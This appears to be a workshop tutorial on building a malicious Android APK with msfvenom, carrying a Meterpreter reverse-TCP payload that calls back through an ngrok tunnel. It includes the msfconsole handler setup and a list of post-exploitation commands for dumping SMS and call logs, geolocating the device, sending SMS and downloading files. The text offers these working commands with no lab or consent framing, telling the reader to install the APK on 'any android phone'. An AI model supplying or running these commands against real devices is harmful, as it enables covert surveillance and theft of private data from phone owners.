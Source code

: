 ```
ngrok tcp 9999
```
It will provide you a public host and a PORT. Note it down. Let's say,  `0.tcp.in.ngrok.io` and `11664`. Now, we are all set for generating the malicious apk.

To generate a simple, malicious application for getting a meterpreter shell, run the following command:
```
msfvenom -p android/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<port> R > shell.apk

In this case, our host is 0.tcp.in.ngrok.io and the port is 11664. It might be different in your case.

So, I'll use the command

msfvenom -p android/meterpreter/reverse_tcp LHOST=0.tcp.in.ngrok.io LPORT=11664 R > shell.apk
```
It would generate an apk with the name shell.apk
Sign it using jarsigner (the same method used while rebuilding the apk using apktool)

Now, your malicious application is ready! Install it on any android phone.

## Msfconsole
It is a powerful, command line interface for the metasploit framework.
Launch the msfconsole (Simply, run the command `msfconsole`)

After the msfconsole is ready,
```
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 9999
run
```
Now, the msfconsole will be waiting for a reverse tcp connection from the target device. Execute the app on the target device and boom, you'll get a meterpreter shell

Note : Be careful while specifying the payload and the LPORT. LPORT must be the same port to which ngrok is tunneling traffing. For example, if you start ngrok by the command ngrok tcp 9999, the LPORT will be 9999. The payload must be the same payload that was used to generate the malicious apk.

Meterpreter commands (for android)

```
dump_sms  -> Dump the sms logs present on the target device

send_sms -d phone_number -t some_text_message             -> Send a SMS from the hacked device to the specified phone number

geolocate  -> Find the current coordinates of the device

sysinfo  -> Information about the target system

shell     -> Get an interactive shell on the target device

dump_calllog -> Dump the call logs present on the target device

app_list  -> List all the applications (with package names) present on the target

app_run package_name    -> Run an app present on the target (including the camera!!)

download /path/to/file   -> Download any file present on the target (you need to know the path)


Upcoming Workshops (to be declared)....

```